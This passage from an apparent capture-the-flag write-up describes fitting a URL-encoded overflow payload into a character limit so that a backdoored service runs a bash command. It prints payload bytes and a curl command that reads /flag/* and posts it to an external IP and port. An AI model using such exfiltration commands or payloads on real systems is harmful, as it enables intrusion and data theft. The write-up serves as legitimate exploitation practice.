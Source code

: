 ### how to lose 5 hours with bash

For whatever reason, during testing, I thought that I had to take care not overwriting the `RAX` register. Surely during my tests with GDB giving a 4 bytes shifted offset. 
So I fixed my offset issue, but carried away this non-existing `RAX` constraint, meaning I had to create payload like this:

```bash
# normal working payload
payloadwithpadding XXXXXX%91%EBa

# payload with useless constraint
payloadwithpadding XXXXXX%01%00%00%00%00%00%00%00%00%00%91%EBa

```

This additional constraint meant my payload maximum size was reduced from **72** chars to **62** . And my `curl` payload was *over* 62 characters...

But thankfully we have multiple solutions to reduce the size of our payload!

##### changing the url

The ip is pretty big, and we use an unusually big port, it takes lots of characters! 
Check out the difference:
```bash
11.111.111.111:49153 # 20 chars
tuxlu.fr             # 8 chars
```

problems:
- There was no DNS on the pwn server (it was fixed the day after, sometimes patience is key)
- I can't open smaller ports on my box, and I'm too cheap to buy a VPS :(

So indeed, had I port 80 opened on my box I would have not spent 5 hours battling with bash! 
(or had I my brain on and found out I was allowed to use 72 chars)

##### writing other bash commands

So, to gain some characters, the file name seems an easy target. look at this long boi: `/flag/randomflagdockersayspouet.txt`
A simple bash expansion like this `"$(cat /flag/*)"` should do the trick...

But that's where appears our worst enemy: the bash trickery that does **parameter expansion**.
Let's check how the bash command with our environment variable is executed:

```c
execle(bash_path, bash_path, "-c", "echo $(${GOWN})", NULL, environ);
```

this  `$(${GOWN})` does some funky stuff. Let's try with ou bash expansion, with a simple `eval` for the expected behavior, then the actual result interpreted by the `laluBackdoor`:

```bash
G2='curl --data-binary "$(cat /flag/*)" 88.165.169.180:49153'
eval $G2
	POST / : b'RM{REDACTED}'
echo $(${G2})
	POST / : b'"$(cat'
```
